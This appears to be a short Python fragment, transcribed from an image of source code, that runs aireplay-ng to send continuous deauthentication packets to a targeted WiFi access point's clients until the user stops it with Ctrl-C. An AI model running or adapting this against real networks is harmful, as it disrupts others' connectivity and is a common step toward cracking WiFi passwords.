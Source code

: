 # Deauthenticate clients using a subprocess. 
# The script is the parent process and creates a child process which runs the system command, 
# and will only continue once the child process has completed.
subprocess.run(["aireplay-ng", "--deauth", "0", "-a", hackbssid, check_wifi_result[int(wifi_interface_choice)] + "mon"])

# User will need to use control-c to break the script.
